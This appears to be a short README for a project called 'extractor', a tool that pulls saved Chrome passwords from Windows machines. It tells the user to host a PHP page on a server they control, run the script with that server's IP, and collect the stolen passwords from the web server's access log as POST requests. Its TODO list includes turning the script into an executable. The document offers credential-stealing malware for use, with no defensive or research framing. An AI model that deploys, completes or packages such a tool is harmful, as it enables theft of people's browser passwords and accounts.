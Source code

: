 # extractor
Chrome password extractor for windows

First, set up a php page on a web server you control named ssftp.php
After installing necessary modules with and chmod'ing it with `pip install -r requirements.txt && chmod +x extractor.py`, run with `./extractor.py destination_ip`\
The passwords will be in the access.log file if apache2 is used formatted as a post request.

TODO: clean up chrome_password_extractor.py\
      fix issues with modules not installing\
      maybe build .py file into an executable
